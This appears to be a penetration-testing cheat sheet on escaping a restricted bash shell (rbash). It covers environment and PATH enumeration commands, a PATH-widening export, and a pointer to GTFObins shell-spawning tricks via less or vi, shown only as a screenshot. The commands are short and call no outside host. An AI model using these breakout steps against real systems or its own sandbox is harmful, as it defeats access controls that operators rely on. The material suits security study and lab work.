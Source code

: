 # -rbash

**`Initial Enumeration`**

***Check -1 : [[ Environment Variables Check ]]***

```bash
export -p # It spits out all the variables set
env # It gives the $SHELL and $PATH variable
echo $0 # It gives the $SHELL name
echo $PATH # It gives the path variable
```

***Check -2: [[ The `$PATH` Variable ]]***

```bash
ls /home/tom/usr/bin  #This will list all the files/commands inside that dir
/home/tom/usr/bin and hit tab twice #Sometimes the ls command itself won't be available, so we can use this method to still list the commands
echo /home/tom/usr/bin/* #If double tapping the tab is also disabled, you can echo the directory and get the list
```

**`Exploitation to Breakout of the rbash`**

***Method -1 : [[ Edit $PATH Variable ]]***

```bash
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

***Method -2 : [[ GTFObins ]]***

4 commands from the previous screenshot, `less` `ls` `scp` `vi` . So I’ll show how to use some of them to spawn a normal shell.

**vi :** I searched gtfobins with less and found a section on spawning a shell

![https://miro.medium.com/v2/resize:fit:875/1*PHWbDJOE7KjKUnt1owvO_Q.png](https://miro.medium.com/v2/resize:fit:875/1*PHWbDJOE7KjKUnt1owvO_Q.png)